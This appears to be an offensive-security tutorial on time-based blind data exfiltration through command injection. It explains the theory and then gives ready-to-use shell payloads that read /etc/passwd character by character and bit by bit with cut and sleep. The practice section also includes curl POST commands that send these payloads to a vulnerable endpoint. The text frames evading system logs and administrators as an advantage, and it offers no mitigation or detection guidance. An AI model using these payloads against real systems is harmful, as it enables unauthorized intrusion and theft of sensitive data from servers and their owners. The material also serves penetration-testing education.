

# Time Based Data Exfiltration

## Context

Time-based data exfiltration is an advanced technique used in offensive cybersecurity to extract sensitive data through subtly measured response delays. This method is particularly potent when exploiting command injection vulnerabilities in web applications, as it allows attackers to infer information bit by bit or character by character by injecting commands that manipulate server response times. This article assumes a working knowledge of timing attacks, data exfiltration methods, and command injection techniques.

## Theory

### Principles of Time-Based Data Exfiltration via Command Injection

Time-based data exfiltration encodes information in response delays caused by injected commands. At its core, this technique involves sending payloads that conditionally delay the server's response based on the data being targeted. By observing these response times, an attacker can reconstruct sensitive information without producing visible errors or logs that might alert system administrators.

The process follows a clear attack sequence: inject commands that include logical conditions specific to desired data values. When a condition evaluates as true, the server is instructed to delay its response. Repeat this process iteratively to extract each bit or character of the sensitive information.

### Timing Mechanisms and Shell Commands

A critical part of this process relies on the use of specific shell commands:

- The `sleep` command pauses execution for a given duration, creating intentional and measurable delays. This becomes an integral part of the payload for timing attacks.
- The `cut` command helps in extracting specific characters or fields from output, thus enabling precision in data leaks.

By combining `sleep` with conditional logic in shell expressions, attackers can systematically extract data, either by individual bits or complete characters.

### Time-Based Boolean Exfiltration Logic

To bypass filters and inject conditional delays, attackers use shell constructs such as `$(...)`, backticks, `&&`, and `||`. These allow for sophisticated boolean logic and conditional operations. During an attack, the workflow can be visualized as follows:



This process involves testing a data condition — if true, a delay is introduced, otherwise, the server responds immediately. By carefully measuring these response times, the attacker can infer the data stored on the server.

## Practice

### Character-by-Character Time-Based Exfiltration via Command Injection

To execute a character-by-character data extraction:

- **Identify a Vulnerable Command Injection Point**: Discover a location within the web application that is susceptible to command injection. Assume readers have the skills to identify such points manually or through automated scanning tools.
  
- **Inject the Payload**: 
  ```bash
  $(if [ "$(cut -c1 /etc/passwd)" = "r" ]; then sleep 5; fi)
  ```

  This payload checks if the first character of `/etc/passwd` is ‘r’; if so, the server sleeps for a specified time.

- **Send the Payload**:
  ```bash
  curl -X POST -d 'input=$(if [ "$(cut -c1 /etc/passwd)" = "r" ]; then sleep 5; fi)' http://target-app/vuln-endpoint
  ```
  Use curl to dispatch this payload to the endpoint known to be vulnerable.

- **Measure Response Time**: Monitor the response duration. A delay indicates that the condition was true and the character was correctly guessed.

Repeat this process for each character position and potential value to gradually reconstruct the sensitive information.

### Binary (Bitwise) Time-Based Exfiltration via Command Injection

For a more efficient bitwise extraction:

- **Target a Specific Character**: Focus on extracting ASCII values bit-by-bit.

- **Inject a Bitwise Payload**:
  ```bash
  $(char=$(cut -c1 /etc/passwd); if [ $(( ($(printf '%d' "'$char'") >> 6) & 1 )) -eq 1 ]; then sleep 5; fi)
  ```

  This payload checks if the 7th bit of the first character is set, sleeping if true.

- **Send the Payload**:
  ```bash
  curl -X POST -d 'input=$(char=$(cut -c1 /etc/passwd); if [ $(( ($(printf '%d' "'$char'") >> 6) & 1 )) -eq 1 ]; then sleep 5; fi)' http://target-app/vuln-endpoint
  ```
  Dispatch this through a command line to evaluate timing differences and determine bit values.

By iteratively applying these methods, sensitive data can be extracted accurately without evident system errors or logs.

## Tools

- **curl**
- **Burp Suite**
- **ffuf**